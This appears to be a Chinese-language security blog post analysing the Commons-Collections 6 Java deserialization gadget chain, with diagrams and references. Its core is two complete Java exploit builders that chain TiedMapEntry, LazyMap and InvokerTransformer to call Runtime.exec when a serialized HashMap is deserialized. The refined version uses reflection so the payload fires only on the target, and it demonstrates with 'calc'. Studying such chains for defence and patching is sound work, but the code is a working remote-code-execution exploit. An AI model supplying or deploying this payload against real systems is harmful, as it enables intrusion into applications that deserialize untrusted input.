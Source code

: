```yaml
---
title: CommonsCollections6
date: 2021-12-18 14:46:58
categories:
- Java
tags:
- Deserialization exploit chain
toc: true
notshow: true
---
```

# 流程图

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639749549133-5581e661-9864-4ca2-95d1-88fc9fa1b36c.jpeg)



# 分析与复现





## 0x00 概述



CommonsCollection6 是 Common-collections 中没有受到 JDK 版本限制的一条链。



### 利用版本



CommonsCollections 3.1 - 3.2.1



### 限制



JDK版本：暂无限制



## 0x01 前置准备

环境搭建与 CC1 中的环境搭建一致。具体可以参考：

https://www.yuque.com/dr34d/ziu16u/xuq88g#UmX6n



## 0x02 触发点

CC6 与 CC1 在LazyMap.get 之后的调用链是相同的，因此触发点不变。不同的是，CC6 使用了 HashMap 作为利用链的起点。

## 0x03 调用链

在 URLDNS 中，我们可以知道 HashMap 在反序列化时会调用 hashCode 方法，但是 hashCode 之后怎么串联起来，需要寻找新的类。目前这条链如图所示：

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639748725273-6326e22b-61f9-4fd1-bf2c-a425165fa111.png)

寻找方法可以使用 IDEA 手动寻找，也可以使用一些自动化的工具。

利用链的作者使用的是 TiedMapEntry 。

我们可以看到 TiedMapEntry.hashCode 方法中调用了 getValue 方法。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639749264237-2b99ab5f-37f5-4553-907f-aac868da2c02.png)

getValue 方法中调用了 map.get 方法。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639749313856-0894b411-b7c3-4bc4-b8ed-82cda6558fa7.png)

map 在构造器中初始化，因此我们可控。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639749341593-1d9ac5db-b1d6-49cd-867a-72375db9815b.png)

所以这样看，这条链其实也比较简单。

将 HashMap 的元素设置为 TiedMapEntry ，TiedMapEntry.map 设置为 LazyMap，就能够将整条链串起来。

利用链如下：

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639749565382-47e44be3-82e5-4f31-baa4-ac137f94f338.png)

exp 编写如下：

```java
    public static void testCC6() throws Exception{
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{
                        new ConstantTransformer(
                                Runtime.class
                        ),
                        new InvokerTransformer(
                                "getMethod",
                                new Class[]{String.class,Class[].class},
                                new Object[]{"getRuntime",null}
                        ),
                        new InvokerTransformer(
                                "invoke",
                                new Class[]{Object.class,Object[].class},
                                new Object[]{null,null}
                        ),
                        new InvokerTransformer(
                                "exec",
                                new Class[]{String.class},
                                new Object[]{"calc"}
                        )
                });

        HashMap<String,String> map = new HashMap<>();
        map.put("entrySet","aaa");

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(map,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry,"bbb");
        serialize(hashMap);
    }
```

在 URLDNS 利用链中我们知道，在编写 HashMap 相关的 exp 时，按照上面的写法，hashMap.put 中会调用 hash 方法

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639750108377-360f5c1a-b4d6-4820-8ac9-e555d6e89ba4.png)

hash 方法会进一步调用 key.hashCode，这里 key 为 TideMapEntry，因此会弹出计算器。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639750157529-f2edabea-d96f-4536-9646-39c282d4366c.png)

另外，调用了 LazyMap.get 方法后，会将对应的 key（上面的 exp 中为 "aaa"）和 value put 到 map 中。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639750827403-4f11c9f3-50cc-46c2-8787-d47dc63789f6.png)

如果在序列化前不将这个键值对删除掉的话，在反序列化再次调用 get 方法时，这个 key 已经在 map 里面了，则不会调用 transform 方法。

至于序列化时是否执行，可改可不改。编写工具时当然不希望有干扰，可以进行相应修改，即在 put 前将利用链破坏掉，put 后，序列化前再将完整的链还原，这里是先将任意 ConstantTransformer 赋值到 LazyMap 中，尔后在赋值为 chainedTransformer，注意需要使用反射的方法来修改属性。

综上修改后的 exp：

```java
    public static void testCC6() throws Exception{
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{
                        new ConstantTransformer(
                                Runtime.class
                        ),
                        new InvokerTransformer(
                                "getMethod",
                                new Class[]{String.class,Class[].class},
                                new Object[]{"getRuntime",null}
                        ),
                        new InvokerTransformer(
                                "invoke",
                                new Class[]{Object.class,Object[].class},
                                new Object[]{null,null}
                        ),
                        new InvokerTransformer(
                                "exec",
                                new Class[]{String.class},
                                new Object[]{"calc"}
                        )
                });

        HashMap<String,String> map = new HashMap<>();
        map.put("entrySet","aaa");

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(map,new ConstantTransformer("aaa"));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry,"bbb");

        Class c = Class.forName("org.apache.commons.collections.map.LazyMap");
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap,chainedTransformer);

        lazyMap.remove("aaa");
        serialize(hashMap);
    }
```

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639751382386-b6e810ed-4878-4d16-88ff-528490e8fcce.png)



# 参考资料


- [Java反序列化CommonsCollections篇(二)](https://www.bilibili.com/video/BV1no4y1U7E1?from=search&seid=1275269546208917278&spm_id_from=333.337.0.0) 
- [Commons-Collections 1-7 利用链分析](http://wjlshare.com/archives/1535)
